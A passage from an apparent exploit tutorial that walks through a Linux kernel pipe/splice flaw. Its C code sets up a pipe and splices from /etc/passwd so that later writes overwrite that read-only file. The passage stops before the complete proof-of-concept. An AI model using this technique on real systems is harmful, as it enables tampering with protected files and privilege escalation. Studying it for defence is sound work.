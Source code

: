 ```c
#define _GNU_SOURCE
#include <fcntl.h>
#include <stdio.h>
#include <unistd.h>

#define TARGET_FILE "/etc/passwd"

int main() {
    int fd;
    int pipefd[2];
    char buffer[4096];

    // 1. Create pipe and open target file
    if ((fd = open(TARGET_FILE, O_RDONLY)) == -1) {
        perror("open");
        return 1;
    }

    if (pipe(pipefd) == -1) {
        perror("pipe");
        return 1;
    }

    // 2. Shrink the pipe to 4096 bytes, fill the pipe and then drain it
    fcntl(pipefd[0], F_SETPIPE_SZ, sizeof(buffer));
    write(pipefd[1], buffer, sizeof(buffer));
    read(pipefd[0], buffer, sizeof(buffer));

    return 0;
}

```

Since the path to vulnerable function `copy_page_to_iter_pipe()` is via `splice` and it goes through `splice_file_to_pipe()`, we will perform a `splice` from the target file to the pipe. Since `copy_page_to_iter_pipe()` will get the file's cached page, the buffer's page will be replaced with that of the file's. Subsequent writes to pipe should write to the file's, even thought it is read-only. The splice size will be `1` to use the lowest value possible to trigger the vulnerability.

```c
// 3. Trigger the vulnerability via splice 
	if (splice(fd, NULL, pipefd[1], NULL, 1, 0) < 0) { 
		perror("splice"); 
		close(fd); 
		close(pipefd[0]); 
		close(pipefd[1]); 
		return 1; 
	}
```

At this point, the file's cached page is being used as the `pipe_buffer`'s backing page. Now, writing to the pipe should overwrite the file's content. Following is the complete proof-of-concept.
